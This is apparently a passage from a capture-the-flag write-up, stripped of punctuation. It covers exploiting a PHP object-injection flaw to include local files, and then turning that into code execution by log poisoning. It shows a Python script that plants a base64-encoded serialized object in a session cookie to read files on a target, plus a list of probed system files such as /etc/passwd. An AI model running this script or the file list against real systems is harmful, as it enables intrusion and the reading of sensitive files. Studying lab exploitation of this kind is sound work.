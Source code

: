 From the output of the  etc passwd file  two particular entries can be seen  the root user is running  bin ash instead of the normal  bin bash  this may be to prevent users from getting to root unless it is aliased to something   and there is a local user named www running  bin sh 

    Local File Enumeration

A second python script was created to quickly enumerate the local files on the system 

   highlight python   
import requests
from base64 
import b64encode

for f in open  lfi txt   r   readlines     
     
   payload      O 9  PageModel  1  s 4  file  s  d   s          len f rstrip    f rstrip     
   payload   b64encode payload encode     
   cookies      PHPSESSID    payload decode      
   html   requests get  http   167 99 88 212 30746  cookies cookies  text   if len html    0   
       print f strip   
   endhighlight   

The script opens file called lfi txt   1     ftnt1  and puts the file name into the object  When the file is present on the system  the length of the response will be greater than 0 bytes  and the name of the file will be printed out  However  after the python script finished executing  no interesting files were discovered 

   highlight bash   
 etc passwd  
 etc fstab  
 etc hosts  
 etc inittab  
 etc issue  
 etc motd  
 etc motd  
 etc mtab  
 etc profile  
 etc resolv conf  
 proc cpuinfo  
 proc filesystems  
 proc interrupts  
 proc ioports  
 proc meminfo  
 proc modules  
 proc mounts  
 proc stat  
 proc swaps  
 proc version  
 proc self net arp
   endhighlight   

RCE
   

Seeing as an LFI vulnerability was detected  the possibility of upgrading this to RCE is something of interest  A common methodology for converting an LFI vulnerability to RCE is log poisoning   2     ftnt2   a process in which a malicious GET request causes a log file to execute PHP  Before performing the malicious GET request  the location of the access log must first be identified  this can be done with the help of Nmap and Google 
